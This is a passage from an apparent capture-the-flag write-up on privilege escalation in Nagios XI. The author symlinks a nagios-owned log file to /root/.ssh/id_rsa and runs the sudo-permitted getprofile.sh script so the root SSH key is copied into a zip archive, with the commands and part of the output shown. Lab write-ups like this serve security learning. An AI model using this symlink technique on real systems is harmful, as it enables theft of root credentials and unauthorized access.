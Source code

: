 
Almost all of these are in `/var/log`, where the nagios can’t write. Still,
the last one is in the `/usr/local/nagiosxi` directory. The section of code
looks like:

    
    
    echo "Getting phpmailer.log..."
    if [ -f /usr/local/nagiosxi/tmp/phpmailer.log ]; then
        tail -100 /usr/local/nagiosxi/tmp/phpmailer.log > "/usr/local/nagiosxi/var/components/profile/$folder/phpmailer.log"
    fi
    

At the end, it puts all the collected files into a Zip archive:

    
    
    echo "Zipping logs directory..."
    
    ## temporarily change to that directory, zip, then leave
    (
        ts=$(date +%s)
        cd /usr/local/nagiosxi/var/components/profile
        mv "$folder" "profile-$ts"
        zip -r profile.zip "profile-$ts"
        rm -rf "profile-$ts"
        mv -f profile.zip ../
    )
    

#### Abusing Symlink

The `phpmailer.log` file is owned by nagios:

    
    
    nagios@monitored:~$ ls -l /usr/local/nagiosxi/tmp/phpmailer.log
    -rw-r--r-- 1 nagios nagios 0 Nov 10 15:14 /usr/local/nagiosxi/tmp/phpmailer.log
    

That means I can modify it. The existing it empty. I’ll overwrite it with a
symlink:

    
    
    nagios@monitored:~$ ln -sf /root/.ssh/id_rsa /usr/local/nagiosxi/tmp/phpmailer.log
    nagios@monitored:~$ ls -l /usr/local/nagiosxi/tmp/phpmailer.log
    lrwxrwxrwx 1 nagios nagios 17 May  9 08:50 /usr/local/nagiosxi/tmp/phpmailer.log -> /root/.ssh/id_rsa
    

Now I run `getuserprofile.sh`:

    
    
    nagios@monitored:~$ sudo /usr/local/nagiosxi/scripts/components/getprofile.sh 0xdf
    mv: cannot stat '/usr/local/nagiosxi/tmp/profile-0xdf.html': No such file or directory
    -------------------Fetching Information-------------------
    Please wait.......
    Creating system information...
    Creating nagios.txt...
    Creating perfdata.txt...
    Creating npcd.txt...
    Creating cmdsubsys.txt...
    Creating event_handler.txt...
    Creating eventman.txt...
    Creating perfdataproc.txt...
    Creating sysstat.txt...
    Creating systemlog.txt...
    Retrieving all snmp logs...
    Creating apacheerrors.txt...
    Creating mysqllog.txt...
    Getting xi_users...